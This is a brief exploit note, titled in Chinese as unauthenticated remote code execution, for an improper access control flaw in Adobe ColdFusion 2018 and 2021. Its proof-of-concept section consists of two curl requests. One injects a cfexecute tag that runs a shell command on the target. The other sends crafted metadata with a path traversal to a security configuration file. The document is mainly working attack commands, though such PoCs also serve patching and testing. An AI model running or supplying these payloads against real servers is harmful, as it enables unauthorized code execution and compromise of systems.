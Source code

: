 未经身份验证的远程代码执行
# description

  Adobe ColdFusion versions 2018 Update 15 (and earlier) and 2021 Update 5 (and earlier) are affected by an Improper Access Control vulnerability that could result in arbitrary code execution in the context of the current user.

# version

<= 2018 Update 15

<= 2021 Update 5

# poc
```
 curl  -k -X POST ‘http://127.0.0.1:8500/CFIDE/AIR/Conflict.cfc?method=test&_cfclient=true’ -d "_variables={<cfexecute name=’sh touch /tmp/test.txt’></cfexecute>}}"
```

```
curl -v -k http://127.0.0.1:8500/testing.cfc?method=foo^&_cfclient=true^&returnFormat=wddx -X POST -H "Content-Type: application/x-www-form-urlencoded" --data "_variables={\"_metadata\":{\"classname\":\"\\..\\lib\\neo-security.xml\",\"_variables\":[]}}"
```
